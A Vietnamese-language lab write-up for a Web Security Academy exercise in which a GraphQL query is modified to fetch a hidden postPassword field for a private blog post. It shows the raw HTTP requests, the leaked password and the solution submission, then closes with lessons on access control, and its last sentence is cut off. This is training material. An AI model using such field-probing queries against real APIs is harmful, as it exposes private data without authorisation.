




# Write-up: Accessing private GraphQL posts

### Tổng quan
Khai thác lỗ hổng trong API GraphQL, nơi trường nhạy cảm `postPassword` trong query `getBlogPost` bị lộ mà không có kiểm soát truy cập. Bằng cách sửa đổi query trong Burp Repeater để lấy trường `postPassword` của bài post với `id:3`, kẻ tấn công lấy được mật khẩu bài post và nộp giải pháp để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng lộ trường nhạy cảm trong query GraphQL `getBlogPost`, lấy trường `postPassword` của bài post với `id:3`, và nộp giải pháp để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Quan sát Burp History, tìm request gửi đến endpoint `/graphql/v1`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ah8015p16qr7890l0mn145600op00ml.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query getBlogSummaries {\n    getAllBlogPosts {\n        image\n        title\n        summary\n        id\n    }\n}"
  }
  ```  
- **Phân tích**:  
  - Query `getAllBlogPosts` trả về danh sách bài post với các trường `image`, `title`, `summary`, `id`.  
  - Phản hồi thiếu bài post với `id:3`, cho thấy bài post này có thể là private hoặc ẩn:  
      

2. **Khai thác trường nhạy cảm**  
- Sử dụng Burp Repeater để kiểm tra các trường khác của query GraphQL.  
- Phát hiện query `getBlogPost` hỗ trợ trường `postPassword` thông qua thử nghiệm hoặc phân tích schema (ví dụ: bằng InQL).  
      
- Sửa đổi query để lấy trường `postPassword` cho bài post với `id:3`:  
  ```
  POST /graphql/v1 HTTP/2
  Host: 0ah8015p16qr7890l0mn145600op00ml.web-security-academy.net
  Content-Type: application/json

  {
    "query": "query getBlogSummaries($id: Int!) {\n    getBlogPost(id: $id) {\n        image\n        title\n        summary\n        id\n        postPassword\n    }\n}",
    "variables": {"id": 3}
  }
  ```  
- Kết quả: Trả về thông tin bài post với `id:3`, bao gồm trường nhạy cảm `postPassword`:  
  ```
  {
    "data": {
      "getBlogPost": {
        "image": "...",
        "title": "...",
        "summary": "...",
        "id": 3,
        "postPassword": "y6cokhoi5flpri86aggh3ungi7yxsc1u"
      }
    }
  }
  ```  
- **Phân tích**: Trường `postPassword` được trả về mà không yêu cầu xác thực, cho thấy lỗ hổng lộ thông tin nhạy cảm:  
    

3. **Hoàn thành lab**  
- Nộp giá trị `postPassword` (`y6cokhoi5flpri86aggh3ungi7yxsc1u`) vào phần **Submit solution** của lab:  
  ```
  POST /submitSolution HTTP/2
  Host: 0ah8015p16qr7890l0mn145600op00ml.web-security-academy.net
  Content-Type: application/x-www-form-urlencoded

  solution=y6cokhoi5flpri86aggh3ungi7yxsc1u
  ```  
- Kết quả: Lab xác nhận hoàn thành:  
    

- **Ý tưởng payload**:  
  - Sử dụng query `getBlogPost` với `id:3` để lấy trường `postPassword`, vốn không được liệt kê trong query `getAllBlogPosts`, và nộp giá trị để hoàn thành lab.  

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng lộ trường nhạy cảm trong GraphQL, sử dụng query `getBlogPost` để lấy trường `postPassword` mà không cần xác thực.  
- Nhận thức tầm quan trọng của việc kiểm soát truy cập các trường nhạy cảm trong schema GraphQL, áp dụng xác thực và phân quyền để ngăn chặn rò rỉ thông tin như mật khẩu bài post.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác lỗ hổng lộ trường nhạy cảm trong API GraphQL, nhấn mạnh tầm quan trọng của việc kiểm soát truy cập và bảo vệ các trường như `postPassword` để ngăn chặn r